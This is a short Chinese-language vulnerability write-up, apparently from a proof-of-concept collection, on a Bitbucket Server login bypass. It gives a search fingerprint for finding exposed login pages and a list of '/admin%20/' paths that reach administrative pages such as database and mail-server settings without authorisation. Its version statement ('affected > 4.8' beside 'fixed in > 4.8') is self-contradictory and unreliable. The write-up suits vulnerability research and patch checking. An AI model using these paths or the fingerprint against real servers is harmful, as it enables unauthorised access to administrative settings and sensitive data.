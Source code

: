 # Atlassian Bitbucket 登录绕过漏洞

## 漏洞描述

此错误已修复并部署在 Bitbucket Server > 4.8 上。Bitbucket 由 Atlassian 团队开发。其中出现了一个通过 %20 绕过权限的漏洞，导致任意用户可获取敏感数据

## 漏洞影响

```
Bitbucket Server > 4.8
```

## 网络测绘

```
title="Log in - Bitbucket"
```

## 漏洞复现

登录页面

![](./images/202205241429046.png)

验证POC

```
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![](./images/202205241429345.png)